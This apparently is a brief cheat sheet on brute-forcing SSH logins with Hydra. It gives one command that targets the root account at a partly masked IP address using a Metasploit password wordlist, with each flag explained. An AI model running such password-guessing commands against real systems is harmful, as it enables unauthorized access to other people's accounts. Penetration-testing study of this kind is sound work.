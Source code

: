 **bruteforcing ssh w/ hydra**

**for linux**

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.198.x.x:(port #) -t 4 -V
```

-l specifies user (root or specific user)
-P specifies password list
specify directory of the wordlist
-t for threads
-V for verbose

![file:///tmp/.3I5P42/1.png](file:///tmp/.3I5P42/1.png)